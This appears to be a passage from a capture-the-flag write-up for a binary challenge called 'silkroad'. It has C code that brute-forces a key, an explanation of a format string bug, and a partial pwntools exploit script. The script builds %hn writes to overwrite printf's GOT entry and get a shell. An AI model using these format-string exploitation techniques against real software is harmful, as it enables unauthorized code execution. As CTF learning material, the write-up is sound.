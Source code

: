 ```c  
	for (int i = 0; i < 0x3b9aca00; ++i)  
	{  
		sprintf(buf, "%.9d", i);  
		for (int i = 0; i < 4; ++i)  
		{  
			key[i] = buf[i];  
		}  
		for (int i = 0; i < 5; ++i)  
		{  
			key[6 + i] = buf[4 + i];  
		}  
		key[4] = '1';  
		key[5] = '1';//4,5 must be length, which is always 11  
		key[11] = 0;  
		clear_stack();  
		if (f(key) == 1)  
			puts(buf);  
	}  
	return 0;  
}  
```

The vulnerability is format string vulnerability, when error message is
printed if an invalid command is given. We can rewrite got table entry of
`printf`, then hijack the `rip` and get shell using `one_gadget`

```python  
from pwn import *

g_local=1  
context(log_level='debug', arch='amd64')  
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")  
if g_local:  
	sh = process(["./silkroad_2.elf", "flag{test}"])  
	gdb.attach(sh)  
else:  
	sh = remote("82.196.10.106", 47299)

def hn(pos, val):  
	assert val < 0x10000  
	if val == 0:  
		return "%" + str(pos) + "$hn"  
	else:  
		return "%" + str(val) + "c%" + str(pos) + "$hn"

def cont_shoot(poses, vals, prev_size = 0):  
	assert len(poses) == len(vals)  
	size = len(poses)  
	ret = ""  
	i = 0  
	cur_size = prev_size  
	next_overflow = ((prev_size + 0xffff) / 0x10000) * 0x10000  
	while i < size:  
		assert next_overflow >= cur_size  
		num = next_overflow - cur_size + vals[i]  
		if num < 0x10000:  
			ret += hn(poses[i], num)  
			next_overflow += 0x10000  
		else:  
			num = vals[i] - (cur_size - (next_overflow - 0x10000))  
			assert num >= 0  
			ret += hn(poses[i], num)  
		cur_size += num  
		i += 1  
```